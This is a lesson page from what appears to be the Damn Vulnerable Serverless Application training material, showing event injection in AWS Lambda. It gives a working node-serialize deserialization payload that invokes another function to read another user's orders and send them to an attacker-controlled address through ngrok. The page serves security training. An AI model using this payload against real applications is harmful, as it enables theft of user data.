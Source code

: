 # LESSON #1: Event Injection

## (1.1) Code Injection via API Gateway
The application sends all request to an API GW (*`https://{string}.execute-api.{region}.amazonaws.com/{stage}/order`*). 
All requests end up being handled by Lambda function, which invokes another lambda based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.

`$$ND_FUNC$$_function (){}()`

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```

Where the *`12312312-1233-1233-1233-123123123123`* is the user-id of the user we want to steal the data from, and *`<ATTACKER_REMOTE_ADDRESS>`* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

As a result, we now have the user orders:

![alt ngrok](https://i.imgur.com/CAcywDz.png)

The above example is the least of problems you can do with such an attack. Notice that there are also admin functions :)


- - - 
## (1.2) Command Injection via S3 bucket
Event injections are not all about API calls and in serverless application, the source of the injection could be an email (file, subject, etc.), an MQTT pub/sub or any other cloud-resource event.

In this case, the DVSA is vulnerable to Command Injection via file name. The file is processed when uploaded to an S3 bucket. Since the bucket is configured insecurely, we can exploit it. 

To learn about this exploit, visit [Lesson #4: Insecure Cloud Configuration](../LESSONS/LESSON_04.md).

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

